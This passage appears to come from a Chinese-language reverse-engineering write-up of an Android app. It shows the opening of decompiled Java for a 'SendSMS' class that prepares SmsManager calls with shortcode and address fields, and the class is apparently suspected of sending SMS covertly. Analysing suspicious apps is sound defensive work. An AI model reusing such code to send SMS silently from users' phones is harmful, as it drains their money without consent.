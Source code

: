 ![enter image description here](img/img1_u144_png.jpg)

寻找左边的类文件列表，其中有一个在 utilities 包下的 SendSMS 类，看起来很像是一个发送短信的类。

**SendSMS.class**

```
package com.hdc.ultilities;

import android.app.PendingIntent;
import android.content.BroadcastReceiver;
import android.content.Context;
import android.content.Intent;
import android.content.IntentFilter;
import android.telephony.SmsManager;
import android.util.Log;
import android.widget.Toast;

public class SendSMS
{
  public static String address;
  public static String dauso_last;
  public static String dauso_x;
  public static int discount;

  public static void send(String paramString1, String paramString2, Context paramContext, String paramString3, int paramInt, String paramString4)
  {
    address = paramString2.trim();
    discount = paramInt;
    dauso_x = paramString3;
    dauso_last = paramString4;
    new Thread(new Runnable(paramContext, paramString1)
    {
      public void run()
      {
        try
        {
```